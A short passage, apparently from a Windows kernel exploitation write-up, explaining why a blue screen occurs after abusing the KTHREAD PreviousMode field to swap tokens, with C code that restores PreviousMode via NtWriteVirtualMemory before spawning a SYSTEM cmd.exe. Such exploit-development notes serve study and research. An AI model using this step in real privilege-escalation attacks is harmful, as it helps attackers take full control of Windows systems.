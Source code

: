 ?

![image.png](en/image%209.png)

I got a BSOD.. ??

The problem occurs when we modify PreviousMode to kernel mode and then try to create a process with system privileges. Since the kernel mode PreviousMode is not needed after token swapping, it should be restored to its original value of 1 before creating the cmd process so that the process can be created without crashing.

```c
	char* restoreBuffer = (char*)malloc(sizeof(CHAR));
	*restoreBuffer = 1;
	
	pNtWriteVirtualMemory(GetCurrentProcess(), (ULONGLONG)KTHREAD + 0x232, (PVOID)restoreBuffer, sizeof(CHAR), &dwbytes);
	system("cmd.exe");
```
